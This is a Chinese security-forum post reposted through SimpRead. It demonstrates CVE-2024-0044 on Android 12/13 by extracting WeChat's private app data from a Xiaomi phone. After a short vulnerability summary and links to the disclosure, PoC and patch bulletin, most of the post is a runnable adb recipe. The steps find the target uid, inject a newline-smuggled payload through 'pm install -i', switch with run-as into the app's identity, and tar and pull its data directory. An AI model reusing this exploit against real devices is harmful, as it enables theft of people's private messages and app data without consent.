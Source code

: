 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.kanxue.com](https://bbs.kanxue.com/thread-282373.htm)

> 利用 CVE_2024_0044 获取手机 (Android12/13) 上的应用数据

漏洞描述
====

CVE-2024-0044 是一项高危漏洞，影响 Android 12 和 13 版本，该漏洞位于 PackageInstallerService.java 文件的 createSessionInternal 函数中。此漏洞允许攻击者执行 "run-as any app" 攻击，从而在不需要用户交互的情况下实现本地特权升级。问题出现在 createSessionInternal 函数中的输入验证不当。攻击者可以通过操纵会话创建过程来利用此漏洞，可能会未经授权地访问敏感数据并在受影响设备上执行未经授权的操作。

_该漏洞由 Meta Security 发现：_

[https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html](https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html)

_Tiny hack 总结并分享了概念证明：_

[https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03)

_有关安全补丁的详细信息，请参阅 Android 安全公告：_

[https://source.android.com/docs/security/bulletin/2024-03-01](https://source.android.com/docs/security/bulletin/2024-03-01)

poc 实践
------

参考 [https://github.com/pl4int3xt/cve_2024_0044](https://github.com/pl4int3xt/cve_2024_0044)

目标：提取手机上微信数据。

手机：小米 10 HyberOS1.0.5.0TJBCNXM Android13 补丁时间：2024-03-01

1. 查看微信 uid

利用 adb shell 命令查看微信的 uid

```
$ pm list package -U |grep com.tencent.mm

```

执行后可以得到微信 uid 10314  
![](https://bbs.kanxue.com/upload/attach/202407/917329_HQVHWDUVRSMKVT5.webp)  
2. 推送任意一个 app 到`/data/local/tmp`目录下，这里采用参考文章一样的 [F-Droid.apk](https://f-droid.org/)

```
adb push F-Droid.apk /data/local/tmp/F-Droid.apk

```

3. 执行 poc，这里将 uid 替换为微信的 uid，victim 这个名称也是可以改的；这里是直接复制下面的代码到 adb shell 命令框中的

```
PAYLOAD="@null
victim 10314 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk

```

![](https://bbs.kanxue.com/upload/attach/202407/917329_3AZEUQNYTM4AYXA.webp)  
4. 切换为微信用户

```
$ run-as victim

```

![](https://bbs.kanxue.com/upload/attach/202407/917329_5MBXZ73NDVVMZ6P.webp)  
可以看到此时 shell 已经是微信 uid 了。

5. 获取微信数据

```
umi:/ $ mkdir /data/local/tmp/mm/                                                                           
umi:/ $ touch /data/local/tmp/mm/mm.tar
umi:/ $ chmod -R 0777 /data/local/tmp/mm/
umi:/ $ run-as victim
umi:/data/user/0 $ tar -cf /data/local/tmp/mm/mm.tar com.tencent.mm

```

拉取数据

```
adb pull /data/local/tmp/mm/mm.tar

```

[[培训]《安卓高级研修班 (网课)》月薪三万计划，掌握调试、分析还原 ollvm、vmp 的方法，定制 art 虚拟机自动化脱壳的方法](https://www.kanxue.com/book-section_list-84.htm)

[#漏洞相关](forum-161-1-123.htm)